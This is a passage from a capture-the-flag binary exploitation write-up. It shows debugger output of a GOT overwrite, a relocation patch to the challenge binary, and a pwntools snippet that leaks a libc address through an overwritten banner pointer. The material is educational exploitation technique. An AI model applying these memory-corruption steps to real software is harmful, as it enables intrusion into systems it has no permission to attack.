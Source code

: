 We can check using gdb by attaching to the process, that we will eventually write the `A`'s to the desired location:
```
pwndbg> x/gx 0x56034509d028
0x56034509d028 <time@got.plt>:	0x4141414141414141
```

## Saving Time - Patching the Binary

To save time, we make a local copy of the binary where the least significant byte of `tests[0]` is changed so that we hit the beginning of main. This makes it much easier to debug and progress as we can skip the part of getting the binary to loop. To patch `tests[0]`, it is not enough to change the value in `.data`, we need to look into the `.rela.dyn` section:

```
Relocation section '.rela.dyn' at offset 0x6f0 contains 15 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
[...]
0000000049e0  000000000008 R_X86_64_RELATIVE                    1295
0000000049e8  000000000008 R_X86_64_RELATIVE                    12b2
[...]
```
* Here we want to change `1295` to `12c8`.
* I did this using  `hexedit` going to offset `0x6f0` and then looking forward for `95 12` 
* The patched binary we call `main_tmp`, and opening in it in gdb, we see the address in `tests[0]` has changed:
```
pwndbg> dq &tests
000055d374ac89e0     000055d374ac52c8 000055d374ac52b2
000055d374ac89f0     0000000000000000 0000000000000000
```

## Leaking Libc

Coming back to pwning, we can write data to offsets from `ld` and the `binary` using `getauxval`, but we can not leak addreses this way. 

In the user code, we have multiple calls to `puts` to print various strings (banner, what and where strings). The idea is to overwrite one of these pointers to point to some entry in `.got.plt` to leak the resolved libc addresses.

The chosen candidate is the banner as it is placed in `.data` and is thus writable. The two what/where strings are placed in readonly `.rodata`.

Below, we overwrite the `banner` with a reference to the `GOT` entry for `puts`. Luckliy the pointers in memory are close to each other, so we only need to overwrite the least significant byte:
```python
# Get leak
writywrite(p8(exe.got.puts & 0xff), AT_ENTRY, banner_ref - exe.symbols['_start'])
libc.address = u64(r.recvline(keepends=False).ljust(8, b'\0')) - libc.symbols['puts']
log.info(f'libc: {hex(libc.address)}')
```

Also note that I am using https://github.com/io12/pwninit to replace my system libc + linker with the one given in the handout. The final binary to use locally is therefore named `main_tmp_patched`.
